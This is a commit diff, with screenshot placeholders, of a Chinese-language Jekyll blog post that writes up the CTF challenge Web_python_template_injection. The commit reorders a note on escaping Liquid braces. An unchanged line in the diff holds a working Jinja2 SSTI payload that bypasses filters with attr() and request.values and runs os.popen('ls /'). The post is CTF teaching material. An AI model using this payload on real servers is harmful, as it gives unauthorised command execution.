

Before and after one commit to AirGoldenFish/airgoldenfish.github.io, a Jekyll site: the page built from _posts/2020-12-22-SSTI.md, in a window 1280 px wide and 1400 px high, scrolled down 236 px. Shown: the top 948 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-12-22-SSTI.md

````diff
--- a/_posts/2020-12-22-SSTI.md
+++ b/_posts/2020-12-22-SSTI.md
@@ -11,12 +11,9 @@ tags:
 写这篇文章的时候Jekyll竟然把`{% raw %}{{}}{% endraw %}`里面给我当liquid代码执行了。同学的hexo没问题，试了一下因为多终端过于憨批，折腾了半天用回了Jekyll
 这CTF打的，我渗透我自己
 解决办法
-开头加上`{% raw %}`,结尾加上`{% endraw %}`
-```
 {% raw %}
-	{% comment %} 这里是各种包含奇怪花括号 {{{0}}} 的地方 {% endcomment %}
+	具体内容，我要用无数个括号{{}}{{{{{}}}}}
 {% endraw %}
-```
 # 老题新做,梦开始的地方
 ## 手工遍历的菜鸡，像极了当初的自己
 攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了）
@@ -68,4 +65,4 @@ __import__("os")加载os
 {{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
 {% endraw %}
 ```
-学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。`args`没被过滤的话也能用
+`args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
````
